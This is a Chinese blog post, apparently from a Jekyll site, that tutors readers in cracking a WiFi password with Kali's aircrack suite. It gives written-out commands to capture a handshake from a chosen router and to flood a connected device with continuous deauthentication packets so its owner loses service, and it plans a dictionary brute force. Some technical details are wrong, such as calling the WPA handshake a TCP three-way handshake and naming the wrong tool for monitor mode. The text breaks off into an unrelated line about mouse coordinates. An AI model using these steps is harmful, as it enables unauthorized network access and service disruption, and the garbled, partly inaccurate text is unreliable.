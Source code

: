 ```yaml
---
layout: post
title: kali WiFi渗透
date: 2019-10-15 09:00:00 +0300
description: You’ll find this post in your `_posts` directory. Go ahead and edit it and re-build the site to see your changes. # Add post description (optional)
img: red.jpg # Add image post (optional)
tags: [kali, WiFi渗透] # add tag
---
```


#### 准备工作： kali系统、有无线网卡的电脑、手机一台（用来打开WiFi热点）、一本强大的密码字典

#### 实现原理：进入kali系统，使用系统自带的Aircrack程序监听周围的热点，选择一个不错的WiFi热点然后对连接它的一台设备进行攻击，使其掉线，掉线后这台设备会自动重新连接，在连接的过程中设备会发送握手的数据包（当然也可以坐等设备连接当前WiFi热点，只要有设备在进行连接就会发送握手包），我们就可以利用伪装的挂载设备去获取这个握手包，最后就可以用密码字典文件去暴力破解获得密码。

#### 1.建立监听热点机制
首先使用ifconfig/iwconfig命令查看无线网卡是否加载成功，如图出现wlan0无线设备即加载成功。（eth0是本机的以太网卡配置参数，wlan0是你的无线网卡名称，lo是回环接口）    
![Alt text](/assets/img/ifconfig.png)

使用airodump-ng start命令开启无线网卡，此时无线网卡的名称将会变成wlan0mon
![Alt text](/assets/img/start.png)

#### 2.监听WiFi热点
使用airodump-ng wlan0mon命令开始监听周围的WiFi热点，显示周围热点（ctrl+c 停止监听）
![Alt text](/assets/img/监听wifi信号.png)


选取一个WiFi热点进行监听抓包（当有设备连入当前WiFi后就会抓取tcp握手包并存入保存路径内，坐等……）
```
airodump-ng -c 1 --bssid 48:0E:EC:7C:32:99 -w ~/a/ 网卡名
-c  指定频道号(ch)
--bssid  指定无线路由器的BSSID
-w  指定获取的包存储的路径
```
![Alt text](/assets/img/监听wifi握手包.png)


* 为了加速获取握手包可以选取一个连接当前WiFi的设备进行攻击，使用aireplay给其发送断开包，设备断开后就会进行自动重连
```
aireplay-ng -0 0 -c AC:88:FD:14:31:5B -a 48:0E:EC:7C:32:99 网卡名
-0  表示发起攻击（deauthentication洪水攻击），后面指定攻击次数，设置0则为循环攻击，不停的攻击客户端将无法正常上网（ctrl+c停止）
-c  指定强制断开的设备的mac地址
-a  指定无线路由器的BSSID
攻击原理：先让设备掉线，设备会再自动连接，并发这个自动连接过程会进行三次握手，会发送tcp包（里面包含加密的密码数据），此时我方伪装成WiFi热点去窃取该数据包。我方窃取后即可用字典穷举法暴力破解加密的WiFi密码
```
![Alt text](/assets/img/攻击.png)

#### 3、字典暴力破解

* 鼠标相对于当前屏幕的坐标    
